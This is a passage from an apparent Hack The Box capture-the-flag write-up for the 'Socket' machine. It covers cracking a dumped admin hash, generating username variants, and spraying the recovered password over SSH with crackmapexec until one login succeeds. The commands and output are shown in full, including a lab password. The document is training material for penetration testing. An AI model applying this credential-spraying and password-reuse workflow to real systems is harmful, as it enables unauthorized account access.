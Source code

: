 ```bash
[18:22:33] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'
```

There’s only one user in the `users` table. I put the hash through [crackstation](https://crackstation.net/) to get the password for the `admin` user.

![Untitled](../../../assets/2023-07-17-hack-the-box-socket/Untitled6.png)

Digging through the other user I find that `Thomas Keller` wrote a message in the `anwser` table with the admin user.

### SSH Enum

My assumption is that `Thomas Keller` is the admin for the website and most likely has reused the same password for `ssh`. But I need a list of usernames; for this I use [username-anarchy](https://github.com/urbanadventurer/username-anarchy):

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ ./username-anarchy.rb thomas keller
thomas
thomaskeller
thomas.keller
thomaske
thomkell
thomask
t.keller
tkeller
kthomas
k.thomas
kellert
keller
keller.t
keller.thomas
tk
```

To quickly test these, I dump them in a file named `users.txt` and run them through `crackmapexec`:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ crackmapexec ssh 10.10.11.206 -u users.txt -p denjanjade122566                                                                                                                                                             130 ⨯
SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
```